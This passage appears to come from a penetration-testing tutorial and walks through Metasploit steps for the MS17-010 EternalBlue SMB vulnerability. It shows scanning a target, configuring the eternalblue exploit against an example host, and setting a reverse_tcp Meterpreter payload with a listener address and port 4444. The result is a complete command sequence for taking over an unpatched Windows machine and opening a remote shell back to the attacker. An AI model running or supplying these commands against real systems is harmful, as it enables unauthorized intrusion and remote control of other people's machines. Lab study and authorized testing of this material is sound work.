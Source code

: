 ### 2. Vulnerability Identification
```bash
# Search for specific vulnerability
search cve:2017-0144

# Check if target is vulnerable
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.1.100
run
```

### 3. Exploit Selection and Configuration
```bash
# Select exploit
use exploit/windows/smb/ms17_010_eternalblue

# Show targets
show targets

# Set target (if needed)
set target 0

# Configure exploit
set RHOSTS 192.168.1.100
```

### 4. Payload Selection
```bash
# Show compatible payloads
show payloads

# Select payload
set payload windows/x64/meterpreter/reverse_tcp

# Configure payload
set LHOST 192.168.1.10
set LPORT 4444
```

### 5. Execution
```bash
# Check configuration
show options

# Run the exploit
exploit
run

# Run in background
exploit -j
```
